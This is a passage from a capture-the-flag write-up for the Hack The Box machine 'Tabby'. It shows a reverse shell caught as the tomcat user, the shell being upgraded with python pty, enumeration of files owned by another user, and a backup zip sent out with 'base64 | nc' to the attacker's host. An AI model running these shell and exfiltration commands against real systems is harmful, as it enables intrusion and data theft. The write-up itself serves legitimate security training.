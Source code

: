 #### Shell

```shell
coldfx@Shockwave:~/htb/tabby$ pwncat -l 8020 -vv
INFO: Listening on :::8020 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:8020 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.194:55452 (family 2/IPv4, TCP)
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
which python3
/usr/bin/python3
python3 -c "import pty;pty.spawn('/bin/bash')"
tomcat@tabby:/var/lib/tomcat9$ export TERM=xterm
export TERM=xterm
tomcat@tabby:/var/lib/tomcat9$ whoami
tomcat

```

## Elevating Priv: Tomcat -> ash

### Enumeration

Initial enumeration reveals user flag is located inside home directory of user `ash`.

Hence we'll search files owned by user ash:

```shell
tomcat@tabby:~$ find / -user ash 2>/dev/null | xargs ls -la
-rw-r--r-- 1 ash ash 8716 Jun 16 13:42 /var/www/html/files/16162020_backup.zip

ls: cannot open directory '/home/ash': Permission denied
/var/www/html/files:
total 36
drwxr-xr-x 4 ash  ash  4096 Jun 17 21:59 .
drwxr-xr-x 4 root root 4096 Jun 17 16:24 ..
-rw-r--r-- 1 ash  ash  8716 Jun 16 13:42 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Jun 16 20:13 archive
drwxr-xr-x 2 root root 4096 Jun 16 20:13 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16 11:25 statement

```

### Decrypting Archive

There is a `16162020_backup.zip` inside /var/www/html/files directory.

The file is encrypted with a password, To examine it better we'll transfer it to our machine using `nc` along with `base64` which is safer way for maintaining file integrity.

```shell
tomcat@tabby:/var/www/html/files$ base64 16162020_backup.zip | nc 10.10.14.9 4444
tomcat@tabby:/var/www/html/files$ md5sum 16162020_backup.zip
f0a0af346ad4495cfdb01bd5173b0a52  16162020_backup.zip

```
Receiving the file on our machine, also confirming the integrity of the file by comparing md5 hash:
